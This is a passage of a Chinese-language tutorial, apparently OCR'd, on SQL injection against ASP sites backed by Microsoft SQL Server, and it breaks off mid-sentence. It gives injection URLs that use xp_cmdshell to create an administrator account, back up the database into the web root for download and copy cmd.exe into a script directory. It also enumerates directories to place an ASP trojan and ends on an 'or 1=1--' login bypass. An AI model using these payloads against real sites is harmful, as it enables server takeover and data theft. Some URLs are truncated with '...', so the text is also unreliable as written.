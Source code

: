 若数据库是SQL-SERVE，则第一条，abc.asp一定运行正常，第二条则异常；若是ACCESS则两条都会异常。
3、 MSSQL三个关键系统表
sysdatabases系统表：Microsoft SQL Server 上的每个数据库在表中占一行。最初安装 SQL Server 时，sysdatabases 包含 master、model、msdb、mssqlweb 和 tempdb 数据库的项。该表只存储在 master 数据库中。 这个表保存在master数据库中，这个表中保存的是什么信息呢？这个非常重要。他是 保存了所有的库名,以及库的ID和一些相关信息。
这里我把对于我们有用的字段名称和相关说明给大家列出来。name //表示库的名字。
dbid //表示库的ID，dbid从1到5是系统的。分别是：master、model、msdb、mssqlweb、tempdb 这五个库。用select * from master.dbo.sysdatabases 就可以查询出所有的库名。
Sysobjects：SQL-SERVER的每个数据库内都有此系统表，它存放该数据库内创建的所有对象，如约束、默认值、日志、规则、存储过程等，每个对象在表中占一行。
syscolumns：每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中。主要字段有：
name ，id， colid ：分别是字段名称，表ID号，字段ID号，其中的 ID 是 刚上我们用sysobjects得到的表的ID号。
用: select * from ChouYFD.dbo.syscolumns where id=123456789 得到ChouYFD这个库中，表的ID是123456789中的所有字段列表。
三、确定XP_CMDSHELL可执行情况
若当前连接数据的帐号具有SA权限，且master.dbo.xp_cmdshell扩展存储过程(调用此存储过程可以直接使用操作系统的shell)能够正确执行，则整个计算机可以通过以下几种方法完全控制，以后的所有步骤都可以省
1、HTTP://xxx.xxx.xxx/abc.asp?p=YY&nb ... er>0 abc.asp执行异常但可以得到当前连接数据库的用户名(若显示dbo则代表SA)。
2、HTTP://xxx.xxx.xxx/abc.asp?p=YY ... me()>0 abc.asp执行异常但可以得到当前连接的数据库名。
3、HTTP://xxx.xxx.xxx/abc.asp?p=YY；exec master..xp_cmdshell “net user aaa bbb /add”-- (master是SQL-SERVER的主数据库；名中的分号表示SQL-SERVER执行完分号前的语句名，继续执行其后面的语句；“—”号是注解，表示其后面的所有内容仅为注释，系统并不执行)可以直接增加操作系统帐户aaa,密码为bbb。
4、HTTP://xxx.xxx.xxx/abc.asp?p=YY；exec master..xp_cmdshell “net localgroup administrators aaa /add”-- 把刚刚增加的帐户aaa加到administrators组中。
5、HTTP://xxx.xxx.xxx/abc.asp?p=YY；backuup database 数据库名 to disk='c:\inetpub\wwwroot\save.db' 则把得到的数据内容全部备份到WEB目录下，再用HTTP把此文件下载(当然首选要知道WEB虚拟目录)。
6、通过复制CMD创建UNICODE漏洞
HTTP://xxx.xxx.xxx/abc.asp?p=YY;exe ... dbo.xp_cmdshell “copy c:\winnt\system32\cmd.exe c:\inetpub\scripts\cmd.exe” 便制造了一个UNICODE漏洞，通过此漏洞的利用方法，便完成了对整个计算机的控制(当然首选要知道WEB虚拟目录)。
四、发现WEB虚拟目录
只有找到WEB虚拟目录，才能确定放置ASP木马的位置，进而得到USER权限。有两种方法比较有效。
一是根据经验猜解，一般来说，WEB虚拟目录是：c:\inetpub\wwwroot; D:\inetpub\wwwroot; E:\inetpub\wwwroot等，而可执行虚拟目录是：c:\inetpub\scripts; D:\inetpub\scripts; E:\inetpub\scripts等。
二是遍历系统的目录结构，分析结果并发现WEB虚拟目录；
先创建一个临时表：temp
HTTP://xxx.xxx.xxx/abc.asp?p=YY;create&n ... mp(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3 nvarchar(255));--
接下来：
（1）利用xp_availablemedia来获得当前所有驱动器,并存入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert temp ... ter.dbo.xp_availablemedia;--
我们可以通过查询temp的内容来获得驱动器列表及相关信息
（2）利用xp_subdirs获得子目录列表,并存入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert into temp(i ... dbo.xp_subdirs 'c:\';--
（3）利用xp_dirtree获得所有子目录的目录树结构,并寸入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert into temp(id,num1) exec master.dbo.xp_dirtree 'c:\';--
注意：
1、以上每完成一项浏览后，应删除TEMP中的所有内容，删除方法是：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;delete from temp;--
2、浏览TEMP表的方法是：(假设TestDB是当前连接的数据库名)
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top& ... nbsp;TestDB.dbo.temp )>0 得到表TEMP中第一条记录id字段的值，并与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现id字段的值。假设发现的表名是xyz，则
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 id from ... ere id not in('xyz'))>0 得到表TEMP中第二条记录id字段的值。
五、上传ASP木马
所谓ASP木马，就是一段有特殊功能的ASP代码，并放入WEB虚拟目录的Scripts下，远程客户通过[IE](http://baike.baidu.com/view/703.htm)就可执行它，进而得到系统的USER权限，实现对系统的初步控制。上传ASP木马一般有两种比较有效的方法：
1、利用WEB的远程管理功能
许多WEB站点，为了维护的方便，都提供了远程管理的功能；也有不少WEB站点，其内容是对于不同的用户有不同的访问权限。为了达到对用户权限的控制，都有一个网页，要求用户名与密码，只有输入了正确的值，才能进行下一步的操作,可以实现对WEB的管理，如上传、下载文件，目录浏览、修改配置等。
因此，若获取正确的用户名与密码，不仅可以上传ASP木马，有时甚至能够直接得到USER权限而浏览系统，上一步的“发现WEB虚拟目录”的复杂操作都可省略。
用户名及密码一般存放在一张表中，发现这张表并读取其中内容便解决了问题。以下给出两种有效方法。
A、 注入法：
从理论上说，认证网页中会有型如：
select * from admin where username='XXX' and password='YYY' 的语句，若在正式运行此句之前，没有进行必要的字符过滤，则很容易实施SQL注入。
如在用户名文本框内输入：abc’ or 1=1-- 在密码框内输入：123 则SQL语句变成：